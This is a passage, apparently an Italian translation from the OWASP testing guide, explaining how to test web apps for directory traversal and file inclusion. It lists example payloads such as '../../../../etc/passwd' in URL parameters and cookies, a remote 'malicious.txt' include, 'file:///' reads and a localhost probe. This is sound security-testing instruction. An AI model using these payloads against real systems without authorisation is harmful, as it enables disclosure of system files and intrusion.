 ## How to Test

### Black-Box Testing

#### Input Vectors Enumeration

Per determinare quale parte dell'app è vulnerabile all'input validation bypassing, il tester deve enumerare tutte le parti dell'app che accettano contenuto dall'utente.
Sono incluse le query HTTP GET e POST e le opzioni come i file upload e i form HTML.

Ecco degli esempi di controlli da eseguire in questa fase:

- ci sono parametri della richiesta che possono essere usati per operazioni relative ai file?
- ci sono estensioni di file inusuali?
- ci sono nomi di variabili interessanti?
	- `http://example.com/getUserProfile.jsp?item=ikki.html`
	- `http://example.com/index.php?file=content`
	- `http://example.com/main.cgi=home=index.htm`
- è possibile identificare i cookie usati dalla web app per la generazione dinamica di pagine o template?
	- `Cookie: ID=d9ccd3f4f9f18cc1:TM=2166255468:LM=1162655568:S=3cFpqbJgMSSPKVMV:TEMPLATE=flower`
	- `Cookie: USER=1826cc8f:PSTYLE=GreenDotRed`

#### Testing Techniques

La fase successiva del test è l'analisi delle funzioni di input validation presenti nella web app.
Usando l'esempio precedente, la pagina dinamica `getUserProfile.jsp` carica informazioni statiche da un file e mostra il contenuto all'utente.
Un attaccante potrebbe inserire la string malevola `../../../../etc/passwd` per includere il particolare file UNIX.
Ovviamente, questo tipo di attacco è possibile solo se la validazione fallisce;
e se nel rispetto dei privilegi del file system, la web app è in grado di leggere il file.

Per verificare correttamente questa vulnerabilità, il tester deve essere a conoscenza del sistema sotto test e la posizione dei file richiesti.
Non ha senso richiedere il file /etc/passwd su un web server IIS.

`http://example.com/getUserProfile.jsp?item=../../../../etc/passwd`

Per l'esempio del cookie:

`Cookie: USER=1826cc8f:PSTYPE=../../../../etc/passwd`

È anche possibile includere file e script ospitati su siti esterni.

`http://example.com/index.php?file=http://owasp.org/malicious.txt`

Se i protocolli vengono accettati come argomenti, come nell'esempio precedente, è anche possibile recuperare file dal file system in questo modo.

`http://example.com/index.php?file=file:///etc/passwd`

Se i protocolli vengono accettati come argomenti, come nell'esempio precedente, è anche possibile interrogare i servizi locali o servizi su altri host.

`http://example.com/index.php?file=http://localhost:8080`
